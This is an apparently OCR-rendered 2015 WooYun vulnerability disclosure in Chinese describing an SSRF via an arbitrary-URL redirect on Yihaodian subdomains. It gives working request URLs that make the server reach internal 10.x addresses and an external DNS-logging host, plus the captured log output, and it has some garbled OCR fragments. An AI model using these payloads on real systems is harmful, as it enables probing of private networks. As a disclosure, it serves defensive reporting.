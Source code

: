 \documentclass{leptc}
\begin{document}
\begin{center}
	\url{http://www.wooyun.org/bugs/wooyun-2015-0119017}
\end{center}
 2015/6/8 \\
 2015/7/23 \\
 设计缺陷/逻辑错误 \\
  暴力扫描子域名，发现了：  漏洞利用了一号店的一个任意url跳转:
\begin{verbatimtab}
	http://3pl.yihaodian.com/system/login_login.action?redirect:http://10.187.10.218
	http://3pl.yihaodian.com/system/login_login.action?redirect:http://10.187.10.217
\end{verbatimtab}
\N3然后使用CloudEye检查了发起DNS请求的IP:
\begin{verbatimtab}
	http://tms2.yihaodian.com/system/login_login.action?redirect:http://xxx.xxxx.dnslog.info
	
	[08/Jun/2015:14:57:40 +0800] 119.147.3.188 - - xxx.xxxx.dnslog.info GET / HTTP/1.0 200 "Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)"
	
	IP地址: 119.147.3.188广东省深圳市 电信
\end{verbatimtab}
 测试是否是内网：
\begin{verbatimtab}
	http://tms2.yihaodian.com/system/login_login.action?redirect:http://admin.soso.com
	http://tms2.yihaodian.com/system/login_login.action?redirect:http://10.130.14.94
\end{verbatimtab}
的tomcat都成功了\\
 是指用你的网络应用向在该设备运行的其它应用发出请求，或者向同一局域网内或远程网络的服务器发送请求。因为请求是利用你的服务器发出，目标服务器可能降低防护等级，因此允许了这种相对信任的请求。\href{http://www.wooyun.org/market/260}{CloudEye}记录dns与apache访问日志并进行统一筛选过滤管理，提供日志输出API，可配合其他工具使用。\\
 加强生成 “网页概要” 的功能过滤 \\
\end{document}
